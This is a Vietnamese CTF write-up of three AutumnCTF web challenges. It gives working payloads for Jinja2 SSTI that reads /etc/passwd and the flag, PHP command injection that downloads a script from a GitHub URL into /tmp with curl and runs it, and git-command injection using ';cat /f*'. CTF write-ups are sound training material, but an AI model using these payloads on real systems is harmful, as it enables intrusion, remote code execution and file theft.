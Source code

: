 ```yaml
---
title: AutumnCTF ISP Write-up
date: 2022-08-10
categories: [writeup]
tags: [web]
---
```

# AutumnCTF ISP

# Hello my fen

Sau khi đọc source và biết được backend là flask jinja 2 thì có thể đoán luôn được là bài này bị dính SSTI, giờ tìm cách bypass black list và white list của bài thôi.

Lên payload all the things chọn một payload thuộc phần read remote file

```php
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```

Sửa file `/etc/passwd` thành `[app.py](http://app.py)` để đọc thử thì thấy kết quả trả về đúng là nội dung file. Giờ thì sẽ làm sao để có thể in ra được nội dung của file `flag.txt`  vì từ `flag` đã nằm trong blacklist

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled.png)

Đến đây thì ta phải dùng hàm `join()` của python để nối chuỗi lại với nhau tạo thành tên file `flag.txt`.

Payload

```php
{{get_flashed_messages.__globals__.__builtins__.open("lag.tx".join("ft")).read()}}
```

Flag: **`FLAG{did-you-really-understand-ssti??}`**

# Ping service v1

Chức năng của website sẽ là nhập một địa chỉ ip rồi sẽ chạy lệnh ping đến địa chỉ ip đó

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%201.png)

⇒ liên quan đến Command Injection

Ctrl+U lên để check source thì thấy có ?debug, vào check source nào

```php
<?php
if (isset($_GET['debug'])) {
    die(show_source(__FILE__));
}
if (isset($_GET['addr'])) {
    $addr = $_GET['addr'];
    $addr = preg_replace('/\||&|;|`|{|}|"|\'|cat|tail|>|<|\n/', ' ', $addr);
    $cmd = 'ping -c 2 ' . $addr . ' 2>&1';
    $ans = shell_exec($cmd);
    $ans = '<h3>' . preg_replace('/\r|\n/', '<br/>', $ans) . '</h3>';
}
```

Bên trên là đoạn code cần chú ý, phía backend sẽ dùng hàm `preg_replace()` để filter input mà người dùng nhập vào. Nhưng ở đây ta có thể dùng câu lệnh ví dụ như `$(pwd)` để bypass filter này.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%202.png)

Hướng làm bây giờ sẽ là up 1 file bất kì có chứa nội dung là `cat /flag` trên nền tảng github. Sau đó dùng lệnh `curl` để tải file về phía server. Phải thay đổi vị trí tải file vị trí folder hiện tại `/var/www/html` sẽ không cho phép tạo thêm file

Tạo file trên github

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%203.png)

Sau đó vào phần raw, copy url.

Lệnh `curl` cần dùng:

```php
$(curl https://raw.githubusercontent.com/kmaron1n/temp/main/a.txt -o /tmp/a)
```

câu lệnh trên sẽ gán nội dung của file a.txt vào file mới tạo là `/tmp/a` 

Check xem folder `/tmp` đã có file a chưa:

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%204.png)

OK!

Giờ thì chạy file `a` rồi lấy flag thôi

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%205.png)

Flag: **`FLAG{not-show-stdout-when-r-stupid}`**

# Git checker

Khi truy cập vào đường dẫn ta sẽ được giao diện như sau. 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%206.png)

Chức năng của website sẽ là chạy lệnh git. CHo chạy qua proxy burpsuite bắt requests, ta thấy command sẽ được truyền tới server dưới dạng JSON

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%207.png)

Param `args` thay đổi được, có vẻ bài này sẽ khai thác được bằng lỗi Command Injection.

Thử thay giá trị của `args` bằng một số payload, ví dụ: `;id;` ⇒ payload hoạt động

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%208.png)

Thử tìm xem có file flag ở đây không bằng payload `;ls` ,  flag nằm cùng thư mục luôn.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%209.png)

Dùng payload `;cat /f*` được Flag

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2010.png)

Flag: `FLAG{g1t-c0mm4nd_1sn't_s4f333}`